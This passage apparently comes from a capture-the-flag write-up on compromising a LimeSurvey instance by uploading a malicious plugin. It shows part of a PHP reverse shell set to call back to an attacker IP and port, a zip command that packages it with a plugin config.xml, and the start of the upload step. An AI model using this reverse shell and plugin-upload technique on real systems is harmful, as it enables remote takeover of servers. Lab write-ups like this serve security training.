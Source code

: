 ```c
            <type>rest</type>
            <source>https://comfortupdate.limesurvey.org/index.php?r=limestorerest</source>
        </updater>
        <updater>
            <stable>0</stable>
            <type>git</type>
            <source>https://github.com/myrepo/myrepo</source>
        </updater>
    </updaters>
</config>
```

```c
┌──(kali㉿kali)-[/media/…/Machines/Heal/files/Limesurvey-RCE]
└─$ head php-rev.php 
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.58';  // CHANGE THIS
$port = 6666;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```

Then we moved both files, the modified `config.xml` and the `php-rev.php` to a `new folder`, `switched into it` and created a `zip-archive` containing those files.

```c
┌──(kali㉿kali)-[/media/…/Heal/files/Limesurvey-RCE/foobar]
└─$ zip -r foobar.zip ./    
  adding: php-rev.php (deflated 61%)
  adding: config.xml (deflated 59%)
```

To `upload` our `malicious plugin` we opened the `Configuration pane` on the top of the page.

![](images/2024-12-14_21-37_80_limesurvey_upload.png)
